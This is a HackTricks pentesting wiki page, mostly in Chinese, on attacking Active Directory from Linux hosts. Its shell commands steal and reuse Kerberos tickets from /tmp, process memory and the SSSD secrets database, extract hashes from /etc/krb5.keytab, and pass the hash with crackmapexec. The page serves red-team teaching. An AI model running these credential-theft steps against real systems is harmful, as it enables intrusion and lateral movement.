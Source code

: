 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

在Active Directory环境中也可以存在一台linux机器。

在AD中的linux机器可能**在文件中存储不同的CCACHE票证。这些票证可以像其他任何kerberos票证一样被使用和滥用**。要读取这些票证，您需要是票证的用户所有者或**root**用户。

## Enumeration

### 从linux进行AD枚举

如果您在linux（或Windows中的bash）上访问AD，可以尝试[https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn)来枚举AD。

您还可以查看以下页面以了解**从linux枚举AD的其他方法**：

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA是一个开源的**替代方案**，用于Microsoft Windows **Active Directory**，主要用于**Unix**环境。它结合了一个完整的**LDAP目录**和一个MIT **Kerberos**密钥分发中心，管理方式类似于Active Directory。利用Dogtag **证书系统**进行CA和RA证书管理，支持**多因素**身份验证，包括智能卡。集成了SSSD用于Unix身份验证过程。了解更多信息：

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## 玩票证

### Pass The Ticket

在此页面中，您将找到不同的地方，您可以**在linux主机中找到kerberos票证**，在以下页面中，您可以学习如何将这些CCache票证格式转换为Kirbi（您在Windows中需要使用的格式），以及如何执行PTT攻击：

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### 从/tmp重用CCACHE票证

CCACHE文件是用于**存储Kerberos凭据**的二进制格式，通常以600权限存储在`/tmp`中。这些文件可以通过其**名称格式，`krb5cc_%{uid}`，**与用户的UID相关联来识别。要验证身份验证票证，**环境变量`KRB5CCNAME`**应设置为所需票证文件的路径，以便重新使用。

使用`env | grep KRB5CCNAME`列出当前用于身份验证的票证。该格式是可移植的，票证可以通过使用`export KRB5CCNAME=/tmp/ticket.ccache`设置环境变量来**重新使用**。Kerberos票证名称格式为`krb5cc_%{uid}`，其中uid是用户UID。
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE 票证重用来自密钥环

**存储在进程内存中的 Kerberos 票证可以被提取**，特别是在机器的 ptrace 保护被禁用时（`/proc/sys/kernel/yama/ptrace_scope`）。一个有用的工具可以在 [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey) 找到，它通过注入会话并将票证转储到 `/tmp` 来方便提取。

要配置和使用此工具，请按照以下步骤进行：
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
此过程将尝试注入到各种会话中，通过将提取的票证存储在 `/tmp` 中，命名约定为 `__krb_UID.ccache` 来指示成功。

### 来自SSSD KCM的CCACHE票证重用

SSSD在路径 `/var/lib/sss/secrets/secrets.ldb` 处维护数据库的副本。相应的密钥存储为隐藏文件，路径为 `/var/lib/sss/secrets/.secrets.mkey`。默认情况下，只有在您具有 **root** 权限时，才能读取该密钥。

使用 \*\*`SSSDKCMExtractor` \*\* 调用 --database 和 --key 参数将解析数据库并 **解密秘密**。
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**凭证缓存 Kerberos blob 可以转换为可用的 Kerberos CCache** 文件，可以传递给 Mimikatz/Rubeus。

### 从 keytab 重用 CCACHE 票证
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### 从 /etc/krb5.keytab 提取账户

服务账户密钥，对于以 root 权限运行的服务至关重要，安全地存储在 **`/etc/krb5.keytab`** 文件中。这些密钥类似于服务的密码，要求严格保密。

要检查 keytab 文件的内容，可以使用 **`klist`**。该工具旨在显示密钥详细信息，包括用户身份验证的 **NT Hash**，特别是当密钥类型被识别为 23 时。
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
对于Linux用户，**`KeyTabExtract`** 提供了提取RC4 HMAC哈希的功能，这可以用于NTLM哈希重用。
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
在 macOS 上，**`bifrost`** 作为一个工具用于 keytab 文件分析。
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
利用提取的账户和哈希信息，可以使用工具如 **`crackmapexec`** 建立与服务器的连接。
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## 参考文献
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
